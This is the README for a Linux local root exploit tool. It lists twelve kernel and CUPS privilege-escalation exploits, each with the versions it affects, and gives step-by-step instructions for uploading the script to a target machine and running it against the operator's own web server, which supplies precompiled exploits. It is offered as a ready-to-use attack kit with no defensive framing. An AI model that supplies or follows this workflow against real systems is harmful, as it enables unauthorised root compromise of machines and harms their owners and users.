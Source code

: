 # click_n_root - Linux Local Root Exploiter  
This is a small script to make the local exploitation process easier. It downloads the precompiled exploit for x86 and x64 architectures and can also automatic compile local on the target system

## Exploit-List:

1.  DirtyCOW AddUser 		(Ubuntu <4.4/<3.13; Debian <4.7.8)
2.  DirtyCOW Pokeball 		(Linux Kernel 2.6.22 < 3.9)
3.  Mempodipper 		(Linux 2.6.39<3.2.2 Gentoo/Debian)
4.  Full Nelson 		(Linux 2.6.31<2.6.37 RedHat/Debiab)
5.  Half Nelson 		(Linux Kernel 2.6.0<2.6.36.2)
6.  Clown NewUser		(Linux 3.0<3.3.5)
7.  fasync_helper 		(Linux Kernel <2.6.28)
8.  overlayfs 			(Linux 3.13.0<3.19)
9.  pipe.c root(kit?) 		(Kernel 2.6.x (32 Bit only!))
10. PERF_EVENTS 		(Kernel 2.6.32-3.8.10)
11. CAN BCM Exploit 		(Kernel <2.6.36)
12. Cups local Exploit 	(Cups <1.1.17)

## How to use it:

1. Download from git
2. Start easy Webserver with "sudo ./server.py"
  1. Now a Webserver is open on your local ip on port 80, serving all files given in the clickNroot folder.  
3. Upload the click_n_root.sh -Script to the target linux machine
4. Give executable rights to the click_n_root -Script (chmod 755 KlickAndRoot.sh)
5. Execute the script with given Server and Folder and choose an option/exploit
  1. E.g.: ./click_n_root 192.168.0.200/click_n_root

### Feel free to modify the script to your needs.

Cheers!

